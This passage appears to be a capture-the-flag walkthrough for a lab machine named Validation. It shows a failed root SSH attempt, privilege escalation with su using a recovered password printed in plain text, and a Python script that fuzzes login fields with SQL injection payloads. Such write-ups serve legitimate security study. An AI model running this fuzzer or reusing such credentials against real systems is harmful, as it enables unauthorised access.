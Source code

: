 Recalling that there is an ssh service on this machine, let us try to SSH into this machine using the credentials that we have. Unfortunately, we are unable to SSH in using the credentials that we have

```
┌──(kali㉿kali)-[~]
└─$ ssh root@10.10.11.116
The authenticity of host '10.10.11.116 (10.10.11.116)' can't be established.
ECDSA key fingerprint is SHA256:9NNmGBno+2zuZvFBCL0HFOeyNN444QD/BzNC5kQX9Yo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.116' (ECDSA) to the list of known hosts.
root@10.10.11.116's password: 
Permission denied, please try again.
root@10.10.11.116's password: 
```

Let us now try to escalate our privileges using the ```su``` command with the credentials. 

```
www-data@validation:/var/www/html$ su root
su root
Password: uhc-9qual-global-pw
whoami
root
```

### Obtaining root flag
```
cat /root/root.txt
<Redacted root flag>
```
## Post-Exploitation
### SQL Injection
We realized that we are unable to use Burp Suite's intruder function to test for SQL Injection in this case as all of them returns a status code of 302 and we would need to extract the session cookies from the original request to check for SQL Injection in http://validation.htb:80/account.php. Hence, we write our own script to test for SQL Injection.

```
import requests
import bs4

headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"}

def test_sql():
    payloads = open("sql_payload.txt").readlines()
    for payload in payloads:
        print("[+] Testing payload: {payload}".format(payload=payload.strip()))
        payload = payload.strip()
        data = {
            "username": payload,
            "country": payload
        }
        s = requests.Session()
        s.post("http://validation.htb/index.php", headers=headers,data=data)
        session_cookie = s.cookies.get_dict()
        r = s.get("http://validation.htb/account.php",cookies=session_cookie)
        soup = bs4.BeautifulSoup(r.text,"html.parser")
        section_tag = soup.find('section')
        if "Uncaught" in section_tag.text:
            print("[!] SQL Injection detected in payload: {payload}".format(payload=payload))

if __name__ == '__main__':
    test_sql()
```